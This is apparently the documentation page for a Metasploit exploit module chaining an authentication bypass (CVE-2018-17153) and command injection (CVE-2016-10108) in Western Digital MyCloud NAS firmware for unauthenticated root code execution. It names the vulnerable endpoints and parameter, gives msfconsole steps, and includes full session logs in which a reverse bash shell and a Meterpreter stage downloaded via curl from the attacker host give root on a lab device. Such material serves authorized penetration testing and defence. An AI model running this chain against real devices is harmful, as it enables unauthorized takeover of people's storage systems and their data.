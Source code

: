 ## Vulnerable Application
This module exploits authentication bypass (CVE-2018-17153) and command injection (CVE-2016-10108) vulnerabilities in
Western Digital MyCloud before 2.30.196 in order to achieve unauthenticated remote code execution as the root user.

The module first performs a check to see if the target is WD MyCloud.
If so, it attempts to trigger an authentication bypass (CVE-2018-17153) via a crafted GET request to /cgi-bin/network_mgr.cgi.
If the server responds as expected (with a 404 response), the module assesses the vulnerability status by attempting to exploit
a command injection vulnerability (CVE-2016-10108) in order to print a random string via the echo command.
This is done via a crafted POST request to /web/google_analytics.php where the command is injected into the `arg` POST parameter.

If the server is vulnerable, the same command injection vector is leveraged to execute the payload.

This module has been successfully tested against Western Digital MyCloud version 2.30.183.

Note: based on the available disclosures, it seems that the command injection vector (CVE-2016-10108) might be exploitable
without the authentication bypass (CVE-2018-17153) on versions before 2.21.126.
The obtained results on 2.30.183 imply that the patch for CVE-2016-10108 did not actually remove
the command injection vector, but only prevented unauthenticated access to it.
However, since older versions will also be vulnerable to CVE-2018-17153, this module always chains exploits for both issues.

- CVE-2016-10108 disclosure and PoC:
https://web.archive.org/web/20170315123948/https://www.stevencampbell.info/2016/12/command-injection-in-western-digital-mycloud-nas/

- CVE-2018-17153 disclosure and Poc:
https://www.securify.nl/advisory/authentication-bypass-vulnerability-in-western-digital-my-cloud-allows-escalation-to-admin-privileges/


## Installation Information
Western Digital no longer seems to offer older firmware versions for download to non-customers.
[This community post](https://community.wd.com/t/wd-my-cloud-v3-x-v4-x-and-v2-x-firmware-versions-download-links/148533)
contains download links to older firmware versions as well as to the source code, but only the links to the source code still work.

## Verification Steps
1. Start msfconsole
2. Do: `use exploit/linux/http/wd_mycloud_unauthenticated_cmd_injection`
3. Do: `set RHOSTS [IP]`
4. Do: `set LHOST [IP]`
5. Do: `exploit`

## Options
### TARGETURI
The base path to WD MyCloud. The default value is `/`.

## Targets
```
Id  Name
--  ----
0   Unix In-Memory
1   Linux Dropper
```

## Scenarios
### Western Digital MyCloud 2.30.183 - Unix In-Memory
```
msf6 exploit(linux/http/wd_mycloud_unauthenticated_cmd_injection) > options 

Module options (exploit/linux/http/wd_mycloud_unauthenticated_cmd_injection):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     10.10.10.45      yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT      443              yes       The target port (TCP)
   SSL        true             no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /                yes       The base path to WD MyCloud
   URIPATH                     no        The URI to use for this exploit (default is random)
   VHOST                       no        HTTP server virtual host


   When CMDSTAGER::FLAVOR is one of auto,tftp,wget,curl,fetch,lwprequest,psh_invokewebrequest,ftp_http:

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SRVHOST  10.10.10.18      yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT  8080             yes       The local port to listen on.


Payload options (cmd/unix/reverse_bash):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.10.10.18      yes       The listen address (an interface may be specified)
   LPORT  6000             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Unix In-Memory



View the full module info with the info, or info -d command.

msf6 exploit(linux/http/wd_mycloud_unauthenticated_cmd_injection) > run

[*] Started reverse TCP handler on 10.10.10.18:6000 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] 10.10.10.45:443 - The target is WD MyCloud. Checking vulnerability status...
[*] 10.10.10.45:443 - Attempting to execute echo tLD1sR3mLQXV1AYFuHV46x5...
[+] The target is vulnerable. The target executed the echo command.
[*] 10.10.10.45:443 - Executing the payload. This may take a few seconds...
[*] Command shell session 1 opened (10.10.10.18:6000 -> 10.10.10.45:45402) at 2023-07-26 13:51:06 +0000
id
uid=0(root) gid=0(root) groups=0(root)
head /usr/local/config/config.xml
<config>
	<sw_ver_1>2.30.183</sw_ver_1>
	<sw_ver_2>2.30.183.0116.2018</sw_ver_2>
	<hw_ver>WDMyCloudEX4100</hw_ver>
	<eula>1</eula>
	<language>0</language>
	<registered>0</registered>
	<eula_fw>0</eula_fw>
	<eula_apps>0</eula_apps>
	<analytics>0</analytics>
```
### Western Digital MyCloud 2.30.183 - Linux Dropper
```
msf6 exploit(linux/http/wd_mycloud_unauthenticated_cmd_injection) > options 

Module options (exploit/linux/http/wd_mycloud_unauthenticated_cmd_injection):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     10.10.10.45      yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT      443              yes       The target port (TCP)
   SSL        true             no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /                yes       The base path to WD MyCloud
   URIPATH                     no        The URI to use for this exploit (default is random)
   VHOST                       no        HTTP server virtual host


   When CMDSTAGER::FLAVOR is one of auto,tftp,wget,curl,fetch,lwprequest,psh_invokewebrequest,ftp_http:

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SRVHOST  10.10.10.18      yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT  8080             yes       The local port to listen on.


Payload options (linux/armle/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.10.10.18      yes       The listen address (an interface may be specified)
   LPORT  6001             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   1   Linux Dropper



View the full module info with the info, or info -d command.

msf6 exploit(linux/http/wd_mycloud_unauthenticated_cmd_injection) > run

[*] Started reverse TCP handler on 10.10.10.18:6001 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] 10.10.10.45:443 - The target is WD MyCloud. Checking vulnerability status...
[*] 10.10.10.45:443 - Attempting to execute echo gkmp1ak8jprpqinbvmN84QXaWfgirEt...
[+] The target is vulnerable. The target executed the echo command.
[*] Using URL: http://10.10.10.18:8080/xFQRlaZ5ODY9ZQa
[*] Client 10.10.10.45 (curl/7.42.1) requested /xFQRlaZ5ODY9ZQa
[*] Sending payload to 10.10.10.45 (curl/7.42.1)
[*] Sending stage (934728 bytes) to 10.10.10.45
[*] Command Stager progress - 100.00% done (119/119 bytes)
[*] Meterpreter session 2 opened (10.10.10.18:6001 -> 10.10.10.45:43738) at 2023-07-26 13:51:59 +0000
[*] Server stopped.

meterpreter > getuid
Server username: root
meterpreter > sysinfo
Computer     : 10.10.10.45
OS           :  (Linux 3.10.39)
Architecture : armv7l
BuildTuple   : armv5l-linux-musleabi
Meterpreter  : armle/linux
```
